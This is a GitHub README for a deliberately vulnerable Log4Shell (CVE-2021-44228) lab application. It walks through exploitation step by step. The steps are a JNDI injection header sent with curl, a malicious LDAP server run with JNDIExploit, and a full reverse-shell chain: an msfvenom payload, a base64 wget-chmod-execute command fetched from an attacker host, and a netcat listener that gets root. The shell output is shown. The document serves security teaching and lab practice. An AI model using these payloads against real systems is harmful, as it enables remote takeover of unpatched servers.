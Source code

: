 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528))... 
[Click Here](http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream) to Download the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```
## Remote Code Execution - CTF Style "How to get a reverse shell"
- create a reverse shell file using msfvenom
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: /tmp/rev.elf
```
- prepare local server using python on our attacking machine
```bash
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
- encode this command line below using `base64`
```bash
wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
```
- copy base64 output
```bash
$ echo 'wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf' | base64
d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
```
- use JNDIExploit to spin up a malicious LDAP server
```bash
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
...
```
- then, run the command below to trigger our command
```
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK}'
Hello, world!
```
- start netcat reverse shell on attacker machine `nc -lvnp 4444`, then netcat will be trigger a reverse shell
```bash
$ nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:42176.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
whoami
root
```
- the output from JNDIExploit
```bash
...
[+] Received LDAP Query: Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
[+] Paylaod: command
[+] Command: wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK redirecting to http://172.17.0.1:8888/ExploitgV2vh72T6X.class
[+] New HTTP Request From /172.17.0.2:58650  /ExploitgV2vh72T6X.class
[+] Receive ClassRequest: ExploitgV2vh72T6X.class
[+] Response Code: 200
```

## Reference
- [Log4Shell: RCE 0-day exploit found in log4j 2, a popular Java logging package](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [PSA: Log4Shell and the current state of JNDI injection](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/)
- [Log4Shell sample vulnerable application (CVE-2021-44228)](https://github.com/christophetd/log4shell-vulnerable-app)
- [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) `Update (Dec 13th): The JNDIExploit repository has been removed from GitHub`

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
